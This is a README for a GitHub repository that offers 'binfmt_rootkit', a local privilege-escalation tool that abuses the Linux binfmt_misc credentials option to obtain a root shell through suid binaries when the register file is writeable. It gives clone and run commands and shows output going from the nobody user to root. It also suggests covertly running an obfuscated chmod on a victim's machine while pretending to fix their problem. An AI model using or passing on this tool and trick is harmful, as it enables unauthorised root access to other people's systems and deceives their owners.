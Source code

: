 
###########
binfmt_misc
###########

Kernel Support for miscellaneous (your favourite) exploits

No breakthrough here, just some trivia involving binary formats.

binfmt_rootkit
--------------

Poor man's rootkit, leverage `binfmt_misc`__'s credentials_ option to
escalate privilege through any suid binary (and to get a root shell) if
:literal:`/proc/sys/fs/binfmt_misc/register` is writeable.

__ https://github.com/torvalds/linux/raw/master/Documentation/admin-guide/binfmt-misc.rst
.. _credentials: https://github.com/torvalds/linux/blame/3bdb5971ffc6e87362787c770353eb3e54b7af30/Documentation/binfmt_misc.txt#L62


.. code:: bash

    $ git clone https://github.com/plcp/binfmt_misc
    $ cd binfmt_misc
    $ ./binfmt_rootkit --help
    Usage: ./binfmt_rootkit
        Gives you a root shell if /proc/sys/fs/binfmt_misc/register is writeable,
        note that it must be enforced by any other mean before your try this, for
        example by typing something like "sudo chmod +6 /*/*/f*/*/*r" while Dave
        is thinking that you are fixing his problem.


Cheap nobody to root is cheap:

.. code:: bash

    $ sudo -u nobody ./binfmt_rootkit
    uid=0(root) euid=0(root)
    sh-4.4#

Tested on :literal:`Linux 4.9.6-1` and working with major distributions.
